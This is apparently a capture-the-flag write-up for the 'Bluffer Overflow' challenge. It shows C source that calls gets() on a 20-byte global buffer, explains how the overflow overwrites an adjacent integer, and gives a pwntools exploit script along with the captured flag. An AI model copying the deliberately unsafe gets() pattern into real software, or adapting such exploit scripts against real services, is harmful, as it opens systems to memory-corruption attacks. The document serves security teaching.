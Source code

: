 ## Bluffer Overflow 🩸

```
Author: rennfurukawa

Maybe it's your first time pwning? Can you overwrite the variable?

nc ctf.tcp1p.com 17027
```
**Attachment**: [dist.zip](release/dist.zip)

We were given a zip file that contain a C source code.

<details open><summary>chall.c</summary>
    
```c
#include <stdio.h>
#include <stdlib.h>

char buff[20];
int buff2;

void setup(){
	setvbuf(stdin, buff, _IONBF, 0);
	setvbuf(stdout, buff, _IONBF, 0);
	setvbuf(stderr, buff, _IONBF, 0);
}

void flag_handler(){
	FILE *f = fopen("flag.txt","r");
  	if (f == NULL) {
    	printf("Cannot find flag.txt!");
    	exit(0);
  }
}

void buffer(){
	buff2 = 0;
	printf("Can you get the exact value to print the flag?\n");
	printf("Input: ");
	fflush(stdout);
	gets(buff); 
	if (buff2 > 5134160) {
		printf("Too high!\n\n");
	} else if (buff2 == 5134160){
		printf("Congrats, You got the right value!\n");
	 	system("cat flag.txt");
	} else {
		printf("Sad, too low! :(, maybe you can add *more* value 0_0\n\n");
	}
	printf("\nOutput : %s, Value : %d \n", buff, buff2);
}

int main(){
	flag_handler();
	setup();
	buffer();
}
```
    
</details>
    
Based by the provided code, the program will ask the user to input a data using the `gets()` function and it will be saved into the `buff` global variable. Since the `gets()` doesn't do a boundaries check, so it will cause a Buffer Overflow vulnerability. Let's take a closer look to the `buffer()` function, there's a check if a value of buff2 variable is equals to 5134160, it will call give us the flag. 
    
We can exploit this Buffer Overflow vulnerability to overwrite the global variable `buff2` with 5134160 by filling the global variable `buff` first with 20 bytes of dummy data (the variable `buff` can only hold up to 20 bytes of data `char buf[20]`).
    
Here's the exploit to solve this challenge.
    
<details close> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/chall"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 17027
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def exploit(io, libc=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + """
            b *buffer+94
            """
            gdb.attach(io, gdbscript=cmd)
    
    p = b""
    p += b"A"*20 # char buff[20]
    p += p64(5134160) # new value for buff2

    io.sendline(p)
    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        # libc = ELF("___")
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
        # libc = ELF("___")
    exploit(io, libc)
``` 
</details>

![](https://hackmd.io/_uploads/ByrlzR3ZT.png)

    
**Flag:** TCP1P{ez_buff3r_0verflow_l0c4l_v4r1abl3_38763f0c86da16fe14e062cd054d71ca}